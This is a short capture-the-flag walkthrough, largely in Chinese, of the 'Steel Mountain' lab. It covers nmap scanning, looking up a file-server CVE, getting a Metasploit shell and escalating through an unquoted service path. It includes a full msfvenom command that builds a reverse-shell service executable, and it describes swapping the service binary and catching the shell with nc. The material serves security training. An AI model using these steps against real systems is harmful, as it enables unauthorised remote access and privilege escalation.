


# Steel Mountain

### 1.Who is the employee of the month?
访问IP域名，浏览器工具查看图片名 

### 2.Scan the machine with nmap. What is the other port running a web server on?
nmap扫描得到 

### 3.Take a look at the other web server. What file server is running?
nmap扫描得到 

### 4.What is the CVE number to exploit this file server?
根据扫描到的服务在www.exploit-db.com中搜索 

### 5.Use Metasploit to get an initial shell. What is the user flag?
进入msfconsole，使用search命令搜索CVE编号，use进去后设置目标IP和端口，run启动攻击 

### 6.we can further enumerate the machine and escalate our privileges to root!
使用PowerUp.ps1脚本枚举提权向量，注意load加载powershell扩展 

### 7.Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

### 8.What is the root flag?
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.156.111 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
生成反弹shell，上传到靶机，sc关闭原服务，然后copy替换服务程序。nc设置一个侦听器，然后重新启动服务，即可获取root权限 
 
